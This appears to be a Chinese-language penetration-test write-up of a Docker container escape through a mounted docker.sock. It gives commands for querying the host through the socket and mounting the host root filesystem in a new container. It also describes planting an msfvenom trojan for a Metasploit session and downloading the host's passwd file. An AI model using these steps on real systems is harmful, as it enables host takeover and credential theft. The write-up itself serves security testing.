 
![](https://gitee.com/fuli009/images/raw/master/public/20210814202403.png)

  

经过测试发现，目标docker容器将docker.sock挂载到了容器内部，这样可以在docker容器中调用和执行宿主机的docker。

  

在容器中找到docker.sock路径：find / -name docker.sock

  

在容器查看宿主机docker信息：docker-H unix:///run/docker.sock info

  

![](https://gitee.com/fuli009/images/raw/master/public/20210814202404.png)

  

查看宿主机容器：docker -H unix:///run/docker.sock images

  

![](https://gitee.com/fuli009/images/raw/master/public/20210814202405.png)

  

运行一个新容器并挂载宿主机根路径：docker -Hunix:///run/docker.sock run -d -I –name aaa -v
/:/test ubuntu /bin/bash



![](https://gitee.com/fuli009/images/raw/master/public/20210814202406.png)

  

使用msfvenom生成linux的木马1.elf，然后用python创建简易的http服务

  

![]()

  

下载生成的木马1.elf，然后将木马复制到我们自己创建的容器内并执行。  

  

![](https://gitee.com/fuli009/images/raw/master/public/20210814202407.png)

  

Msf成功上线。  

  

![](https://gitee.com/fuli009/images/raw/master/public/20210814202408.png)

  

下载宿主机的passwd文件  

  

![](https://gitee.com/fuli009/images/raw/master/public/20210814202409.png)

  